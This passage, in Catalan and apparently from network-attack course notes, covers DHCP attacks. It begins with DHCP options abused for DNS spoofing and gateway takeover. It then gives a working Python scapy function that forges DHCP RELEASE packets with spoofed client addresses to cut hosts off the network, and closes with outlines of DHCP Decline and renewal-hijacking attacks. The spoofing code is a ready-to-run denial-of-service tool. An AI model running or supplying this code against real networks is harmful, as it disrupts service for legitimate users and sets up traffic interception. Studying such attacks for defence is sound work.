 #### Altres Opcions Importants

- **Opció 15 - Domain Name:** Canviar domini per DNS spoofing
- **Opció 119 - Domain Search List:** Manipular l'ordre de cerca de dominis
- **Opció 6 - DNS Servers:** Redirigir tot el DNS
- **Opció 3 - Default Gateway:** Control total del routing

---

## 5. DHCP Release/Renew Attacks (Atacs de Alliberament/Renovació)

### DoS Intermitent

#### DHCP Release Attack

```python
# Tècnica d'atac
import scapy.all as scapy

def dhcp_release_attack(target_range, dhcp_server):
    for target_ip in target_range:
        # Obtenir MAC associada a la IP
        target_mac = get_mac_for_ip(target_ip)
        
        # Crear paquet DHCP RELEASE fals
        dhcp_release = scapy.DHCP(options=[
            ("message-type", "release"),
            ("server_id", dhcp_server),
            ("end")
        ])
        
        packet = (scapy.Ether(dst="ff:ff:ff:ff:ff:ff", src=target_mac) /
                  scapy.IP(src=target_ip, dst=dhcp_server) /
                  scapy.UDP(sport=68, dport=67) /
                  scapy.BOOTP(chaddr=target_mac, ciaddr=target_ip) /
                  dhcp_release)
        
        scapy.sendp(packet)
```

#### DHCP Decline Attack

- Envia DHCP DECLINE per marcar IPs com "in use"
- Simula conflictes d'IP per crear confusió
- Força al servidor a marcar IPs com no disponibles

#### Renewal Hijacking

1. **Monitorització:** Detectar quan clients intenten renovar
2. **Interceptació:** Capturar paquets DHCP REQUEST
3. **Competició:** Enviar DHCP NAK abans del servidor legítim
4. **Substitució:** Oferir nova configuració quan el client torna a DISCOVER

---